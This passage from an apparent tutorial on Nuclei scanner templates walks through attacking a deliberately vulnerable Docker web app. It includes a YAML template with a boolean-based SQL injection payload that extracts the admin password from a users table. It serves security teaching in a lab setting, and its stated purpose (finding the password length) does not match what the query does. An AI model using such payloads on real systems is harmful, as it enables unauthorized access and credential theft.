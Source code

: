 Dynamic extractors (with `internal: true`) capture runtime values—such as CSRF tokens—for use in subsequent requests.

---

### Advanced Features

- **Multiple Requests**: Chain several HTTP requests to simulate multi-step interactions (e.g., extract a CSRF token from a GET request for use in a subsequent POST request).
- **Custom Scripts**: Process extracted values inline (e.g., convert a token to lowercase before reuse).
- **Attack Modes**: Define payload injection strategies such as battering ram, clusterbomb, or pitchfork.

---

## Practical Guide: Vulnerable Web Server and Nuclei Template


### Start the vulnerable docker

We are going to be using [this](https://github.com/appsecco/vulnerable-apps/tree/master/dsvw) server with a couple vulnerabilities to test and practice our new acquired knowledge about **Nuclei templates**.

To run the docker: `docker run -p 1234:8000 -it appsecco/dsvw`

Once it has started, you can access it and see a couple of vulnerabilities to test and create templates for. The first one is the following example.

In this first example there is a **boolean SQLI** which can be detected as the table fills or not, so because that the matcher selected to detect this vulnerability is a **dsl** looking at the length of the response body. 

---

### Create a Nuclei Template to Detect the Boolean SQLI

To find the length of the password, we will use a payload (ranging from 1 to 9) hardcoded in the template, although a file could also be used for more dynamic payloads.

Create a file called something like `BSQLI-dsvw.yaml` with the following content:

```yaml
id: boolean-sqli-password-extract
info:
  name: SQLite Boolean-Based SQL Injection - Password Extraction
  author: yourName
  severity: critical
  tags: ["sqli","sqlite","boolean-based"]

http:
  - method: GET
    path:
      - "{{BaseURL}}?id=2%20AND%20SUBSTR((SELECT%20password%20FROM%20users%20WHERE%20name%3D%27admin%27)%2C1%2C1)%3D%27{{length}}%27"

    payloads:
      length:
        - 1
        - 2
        - 3
        - 4
        - 5
        - 6
        - 7
```